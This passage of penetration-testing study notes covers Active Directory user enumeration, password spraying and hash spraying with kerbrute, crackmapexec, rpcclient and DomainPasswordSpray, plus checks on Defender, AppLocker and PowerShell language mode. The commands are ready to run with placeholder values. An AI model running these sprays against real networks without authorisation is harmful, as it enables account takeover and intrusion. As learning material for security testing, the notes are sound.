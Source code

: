 ```shell
kerbrute userenum -d <domain> --dc <DC IP> /opt/jsmith.txt 
```

With credentialed enumeration, it's once again really easy to get a users list:
```shell
sudo crackmapexec smb <IP> -u <user> -p <pass> --users
```
##### Spraying from Linux
There's many tools that can be used for this, here's a few:
```shell
# Crackmapexec
sudo crackmapexec smb <host> -u valid_users.txt -p <Password> | grep +
sudo crackmapexec smb <host> -u <User> -p <Password> # validating creds

# Kerbrute
kerbrute passwordspray -d <domain> --dc <IP> valid_users.txt <Password>

# Bash one-liner
for u in $(cat valid_users.txt);do rpcclient -U "$u%<Password>" -c "getusername;quit" <IP> | grep Authority; done
```

Here's a way to spray a hash against many machines:
```shell
sudo crackmapexec smb --local-auth <CIDR Range> -u administrator -H <hash> | grep +
```
The `--local-auth` flag tells the tool to only attempt one log in per machine so we don't lock out an account.
##### Spraying from Windows
Once again this is rare, but the easiest way to do it is from PowerShell using [`DomainPasswordSpray`](https://github.com/dafthack/DomainPasswordSpray):
```PowerShell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password <Password> -OutFile spray_success -ErrorAction SilentlyContinue

# This tool generates a user list for us, if we wanted to set one we could use the flag -UserList
```
# Enumerating Security Controls
Before reading this section, check out [[Linux Privilege Escalation]] and [[Windows Privilege Escalation]] for more details regarding local privesc. For any of this enumeration to work, we'll always need valid credentials for at least a single domain user.

### Important Security Controls
**Windows Defender**
Windows has their own firewall that'll block a lot of our tools. If it's enabled, it'll need to be bypassed later. Here's how we can check its status (Look at `RealTimeProtectionEnabled`):
```PowerShell
Get-MpComputerStatus
```
**AppLocker**
This is Microsoft's solution to an application whitelist. It's common for organizations to block `cmd.exe` and `powershell.exe`. Many organizations block only one instance of PowerShell, but forget about the other [PowerShell executable locations](https://www.powershelladmin.com/wiki/PowerShell_Executables_File_System_Locations).
```PowerShell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
**PowerShell Constrained Language Mode**
This locks down a lot of PowerShell features, such as blocking COM objects, only allowing approved .NET types, etc. We can check using:
```PowerShell
$ExecutionContext.SessionState.LanguageMode
```